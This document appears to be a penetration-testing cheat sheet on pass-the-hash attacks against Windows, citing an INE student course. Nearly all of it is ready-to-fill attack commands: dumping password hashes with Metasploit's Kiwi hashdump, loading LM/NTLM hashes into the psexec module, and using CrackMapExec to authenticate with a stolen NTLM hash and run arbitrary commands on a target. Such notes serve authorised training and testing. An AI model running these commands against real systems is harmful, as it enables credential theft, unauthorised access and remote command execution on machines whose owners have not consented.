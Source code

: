 # Pass-The-Hash

* [Metasploit](#metasploit)
* [Crackmapexec](#crackmapexec)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Metasploit

### Kiwi

```
hashdump
```

#### Format:
```
[USERNAME]:[RID]:[LM-HASH]:[NTLM-HASH]:::
```

#### Example:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
```

*LM Hash is the same for every user, the NTLM hash is unique.*

### PSExec

```
search psexec
```
```
use use exploit/windows/smb/psexec
```
```
set SMBUser [USERNAME]
```
```
set SMBPass [LM-HASH]:[NTLM-HASH]
```
Example:
```
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```
```
set target Native\ upload
```
*Target may not need to be set, or may need to be set to something else. Might have to try a few differnet targets to get this to work*  

Now Set RHOSTS, LPORT, & possibly other options and exploit...

***********************************************************************

## Crackmapexec

Check for Pwnage:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]"
```
Example:
```
crackmapexec smb 10.3.31.187 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```

Once Pwn3d, issue commands like this:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]" -x "[COMMAND]"
```
*Ignore python script errors*

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
